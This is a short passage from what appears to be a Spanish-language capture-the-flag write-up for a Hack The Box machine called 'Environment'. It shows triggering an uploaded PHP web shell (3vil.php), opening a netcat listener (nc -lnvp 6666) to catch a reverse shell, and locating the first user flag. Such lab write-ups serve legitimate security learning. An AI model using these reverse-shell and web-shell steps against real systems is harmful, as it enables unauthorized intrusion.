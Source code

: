<img src="/images/writeup-environment/Pasted image 20250701214919.png">
visitamos:
"http:\/\/environment.htb\/storage\/files\/3vil.php"
al mismo tiempo que estaremos en escucha por el puerto 6666 con netcat:
```bash
nc -lnvp 6666
```


tenemos nuestra revshell :D :
<img src="/images/writeup-environment/Pasted image 20250701215121.png">

despues de buscar un poco, podemos ver que, en el directorio home, existe el nombre del usuario con el que entramos, y dentro, esta la primera flag:
<img src="/images/writeup-environment/Pasted image 20250701225626.png">
